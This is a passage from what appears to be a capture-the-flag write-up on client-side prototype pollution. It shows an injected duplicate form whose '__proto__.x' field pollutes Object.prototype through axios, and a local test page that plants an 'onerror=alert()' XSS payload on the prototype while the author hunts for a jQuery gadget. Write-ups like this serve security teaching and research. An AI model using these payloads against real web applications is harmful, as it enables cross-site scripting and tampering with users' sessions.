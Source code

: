 It will render like this

```html
<h2>Hey shirley<form id="search"> <input value="angular/material-start" name="q"> <input value="hack" name="__proto__.x"> </form>,<br>Which repo are you looking for?</h2>

<form id="search">
    <input name="q" value="angular/material-start">
</form>
```

See now there are two form tags with same id `search`, one is the original  and the other which we injected contains the pp payload
As our injected form tag is first it will be used by axios instead


```js
axios.post("/search", $("#search").get(0), {
            "headers": { "Content-Type": "application/json" }
        })
```

Here we go , we successfully polluted the `x` property.

![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/a8608493-c73b-428b-91a9-f4d7828c07b8)

--------

# Prototype Pollution Gadget

As I had no idea about how to get xss for now, I though why not try looking for a pp gadget in axios or jquery.As that can give easy xss.
Here you can find a bunch of gadgets for jquery: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md#xoff-jquery-all-versions

For axios I didn't find anything from google search and the jquery ones didn't seemed related to the challenge.

So the only possible way was to look for a new jquery gadget :)



To make the process easiere I was using a local version which had the jquery unminified version
```html
<script/src=https://code.jquery.com/jquery-3.7.1.js></script>
<script>
  
  Object.prototype.test="<img src=x onerror=alert()>"

</script>

<iframe id="homepage"></iframe>
<img class="avatar" width="35%" src="https://avatars.githubusercontent.com/u/52466165?v=4"/>
<p id="description">A tool to calculate the contrast ratio between any two valid CSS colors.</p>


<script>
$("#description").text("hello");
       $("#homepage").attr({
                    "src": "",
                    "hidden": false
                });
</script>


```

